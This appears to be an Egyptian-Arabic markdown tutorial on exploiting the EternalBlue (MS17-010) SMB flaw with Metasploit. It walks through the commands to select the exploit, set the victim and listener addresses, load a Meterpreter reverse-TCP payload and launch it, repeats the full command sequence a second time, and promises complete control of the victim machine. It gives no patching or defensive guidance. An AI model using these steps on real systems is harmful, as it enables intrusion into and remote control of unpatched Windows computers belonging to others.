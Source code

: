 

# **📌 يعني إيه استغلال الثغرات المعروفة؟**

فيه ثغرات مشهورة جدًا بتتصنف تحت **الثغرات الحرجة (Critical Vulnerabilities)**، وبتكون **معروفة ومتاحة للعامة**، بمعنى إن أي حد يقدر يستغلها لو فهمها كويس.

💡  ال **EternalBlue (MS17-010)** واحدة من أخطر الثغرات المعروفة، واستخدمها هجوم **WannaCry** الشهير اللي ضرب آلاف الأجهزة في 2017. الثغرة بتستغل خطأ في **بروتوكول SMB** اللي بيستخدم في مشاركة الملفات بين الأجهزة على الشبكة.

---

# **🔥 خطوات استغلال ثغرة EternalBlue (MS17-010) في Metasploit**

### **🟢 1. تشغيل Metasploit Console**

📌 افتح الـ Metasploit بالأمر:

```bash
msfconsole
```

---

### **🟢 2. البحث عن الاستغلال المناسب**

📌 دور على استغلال الثغرة باستخدام:

```bash
search ms17_010
```

🔹 هيظهر لك الاستغلال المطلوب، غالبًا هيكون بالشكل ده:

```bash
exploit/windows/smb/ms17_010_eternalblue
```

---

### **🟢 3. اختيار استغلال EternalBlue**

📌 استخدم الاستغلال كده:

```bash
use exploit/windows/smb/ms17_010_eternalblue
```

---

### **🟢 4. ضبط الإعدادات (Set Options)**

📌 لازم تضبط **IP الضحية وIP جهازك** كالتالي:

```bash
set RHOSTS 192.168.1.100   # IP الضحية
set LHOST 192.168.1.50     # جهازك اللي هياخد الاتصال العكسي
set LPORT 4444             # البورت المستخدم
```

---

### **🟢 5. اختيار الـ Payload المناسب**

📌 ده الكود اللي هيتنفذ بعد الاختراق، هنستخدم **Meterpreter**:

```bash
set PAYLOAD windows/meterpreter/reverse_tcp
```

---

### **🟢 6. تنفيذ الاستغلال! 🚀**

📌 شغل الاستغلال بالأمر ده:

```bash
exploit
```

🔹 **لو الثغرة نجحت، هيجيلك Session Meterpreter وتقدر تتحكم في جهاز الضحية بالكامل!** 🔥

---

# **💡 الخلاصة بالمصري:**

1️⃣ **الثغرات المعروفة زي EternalBlue (MS17-010) بتسمح لك تخترق الأجهزة بسهولة لو مش محدثة.**  
2️⃣ **Metasploit عنده استغلال جاهز للثغرة، فمش هتحتاج تكتب كود من الصفر.**  
3️⃣ **بتحدد الضحية (`set RHOSTS`) والجهاز اللي هيستقبل الاتصال العكسي (`set LHOST`).**  
4️⃣ **بتستخدم Payload زي Meterpreter عشان تتحكم في الجهاز بعد نجاح الاختراق.**  
5️⃣ **بتنفذ الهجوم بـ `exploit`، ولو الجهاز غير محمي، هتدخل عليه مباشرة!**

---

# **🛠️ الخطوات العملية لاستغلال EternalBlue في Metasploit**

✅ **1. تشغيل Metasploit:**

```bash
msfconsole
```

✅ **2. البحث عن الاستغلال:**

```bash
search ms17_010
```

✅ **3. اختيار الاستغلال المناسب:**

```bash
use exploit/windows/smb/ms17_010_eternalblue
```

✅ **4. ضبط إعدادات الهدف:**

```bash
set RHOSTS 192.168.1.100
set LHOST 192.168.1.50
set LPORT 4444
```

✅ **5. اختيار الـ Payload:**

```bash
set PAYLOAD windows/meterpreter/reverse_tcp
```

✅ **6. تنفيذ الاستغلال:**

```bash
exploit
```

🎯 **لو الجهاز مستهدف مصاب بالثغرة، هتدخل عليه مباشرة وتتحكم فيه!** 🔥
